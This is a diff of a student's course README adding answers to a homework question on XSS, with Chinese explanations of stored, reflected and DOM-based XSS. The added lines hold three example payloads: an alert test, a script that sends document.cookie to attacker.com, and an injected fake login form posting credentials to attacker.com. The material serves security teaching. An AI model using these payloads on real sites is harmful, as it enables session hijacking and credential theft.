

Before and after one commit to Henry-bear/wehelpW1, a Markdown page: week8/README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/week8/README.md
+++ b/week8/README.md
@@ -396,6 +396,31 @@ Follow learning steps below to prepare your report:
     1. 儲存型 XSS（Stored XSS）：惡意腳本被儲存在伺服器端的數據庫或文件中，當其他用戶訪問時，腳本自動執行。
     2. 反射型 XSS（Reflected XSS）：惡意腳本夾帶在 URL 參數或表單輸入中，並立即在伺服器回應時執行。
     3. DOM 型 XSS（DOM-based XSS）：透過 JavaScript 在客戶端操作 DOM，進而執行惡意腳本。
+
 2. You are a hacker! Design and do a real XSS attack on a web system. Show us your work.
-
+>`假設有一個留言板系統，允許用戶發表評論，但未對輸入內容進行適當的過濾或轉義。`
+    1. 在留言區輸入以下 XSS 惡意腳本：
+   ```javascrpit
+   <script>
+    alert('這是一個 XSS 攻擊！');
+    </script>
+   ```
+   如果網站直接渲染這段輸入，當其他用戶訪問該留言時，他們的瀏覽器會彈出一個警告框，表示 XSS 攻擊成功。
+    2. 竊取 Cookie（更進一步的攻擊）：
+   ```javascript
+   <script>
+    document.location='http://attacker.com/steal.php?cookie='+document.cookie;
+    </script>
+   ```
+   這段腳本會將受害者的 Cookie 傳送到攻擊者的伺服器，攻擊者可利用該 Cookie 來冒充受害者的身份登入系統。
+    3. 偽造登入表單：
+   ```javasciprt
+   <script>
+    document.body.innerHTML = '<form action="http://attacker.com/login.php" method="POST">' +
+        '<input type="text" name="username" placeholder="請輸入帳號">' +
+        '<input type="password" name="password" placeholder="請輸入密碼">' +
+        '<input type="submit" value="登入">' +
+    '</form>';
+    </script>
+   ```
 3. Based on the scenario you did in the previous step, how could it be prevented?
````
